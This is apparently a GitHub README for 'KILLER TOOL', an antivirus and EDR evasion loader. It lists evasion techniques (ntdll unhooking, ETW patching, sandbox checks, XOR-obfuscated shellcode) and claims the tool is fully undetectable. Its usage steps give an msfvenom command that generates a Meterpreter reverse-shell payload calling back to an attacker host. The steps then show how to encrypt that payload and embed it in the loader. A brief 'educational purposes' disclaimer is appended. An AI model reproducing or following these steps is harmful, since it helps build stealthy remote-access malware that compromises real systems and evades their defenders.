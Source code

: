 # KILLER TOOL (EDR Evasion)
It's a AV/EDR Evasion tool created to bypass security tools for learning, until now the tool is FUD.

# Features:

* Module Stomping for Memory scanning evasion
* DLL Unhooking by fresh ntdll copy
* IAT Hiding and Obfuscation & API Unhooking
* ETW Patchnig for bypassing some security controls
* Included sandbox evasion techniques & Basic Anti-Debugging
* Fully obfuscated (Functions - Keys - Shellcode) by XOR-ing
* Shellcode reversed and Encrypted
* Moving payload into hallowed memory without using APIs 
* Runs without creating new thread & Suppoers x64 and x86 arch

# How to use it

Generate your shellcode with msfvenom tool :

      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST<IP> LPORT<PORT> -f raw -o haxxor.bin
      
 Then use the file as an argument to the encryptor XOR function script:
 
`python3 shellcode-xor.py haxxor.bin`

And then you can handle your decryption function, *I've made it easier for script kiddies XD*, paste the output of the previous command into the killer.cpp code as the value of the shellcode unsigned char array.

This is the result when running :

![image](https://user-images.githubusercontent.com/82971998/230731975-a70abd1c-279b-4e79-9e91-6b5212b7db9a.png)

# PoC (Proof-of-Concept) :

https://antiscan.me/images/result/07OkIKKhpRsG.png

![image](https://user-images.githubusercontent.com/82971998/230732045-ca2638fe-4f3c-4926-8f94-4fff817ca585.png)

# Important Notes

* First thanks to Abdallah Mohammed for helping me to develop it ^_^
* The tool is for educational purposes only
* Compile the code with visual studio compiler


